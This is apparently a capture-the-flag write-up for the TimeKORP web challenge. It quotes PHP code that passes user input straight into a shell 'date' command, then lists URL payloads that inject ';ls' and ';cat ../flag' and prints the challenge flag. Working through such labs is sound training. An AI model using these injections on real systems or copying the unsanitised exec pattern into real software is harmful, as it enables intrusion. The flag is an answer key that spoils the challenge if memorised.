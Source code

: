 # TimeKORP

Description: Are you ready to unravel the mysteries and expose the truth hidden within KROP's digital domain? Join the challenge and prove your prowess in the world of cybersecurity. Remember, time is money, but in this case, the rewards may be far greater than you imagine.

> IP: [IP_HERE]

## NOTES / STEPS

1. Deploy Machine
2. Download Files
3. Looking through the code we see something important:

    ```php
        class TimeModel
        {
            public function __construct($format)
            {
                $this->command = "date '+" . $format . "' 2>&1";
            }

            public function getTime()
            {
                $time = exec($this->command);
                $res  = isset($time) ? $time : '?';
                return $res;
            }
        }
    ```

    1. The command is setby "date'+" . $format . "' 2>&1";
       1. We can see in here that the command variable is a concatenated string with $format being something we input
       2. Then in the getTime() function we see that command gets executed by the exec() function
          1. Soooooo... we could potentially bypass this by ending the string and adding our own command
4. TESTING
   1. URL: "http://83.136.254.158:48422/?format=';'"
      1. Just using the semicolon to end the line we see
         1. It's sh: 1: : Permission denied.
         2. Hmm looks like we are getting somewhere
   2. URL: "http://83.136.254.158:48422/?format=';ls'"
      1. Now adding the ls command we get
         1. views
         2. BINGO!
   3. URL: "http://83.136.254.158:48422/?format=';cat ../flag'"
      1. The flag is up a dir so lets use the cat command to get the flag
         1. SUCCESS!
            1. FLAG: `HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3_46e515f83d07dcd9ab0f6d76b175ca61}`

## QUESTIONS

1. FLAG
   1. `HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3_46e515f83d07dcd9ab0f6d76b175ca61}`
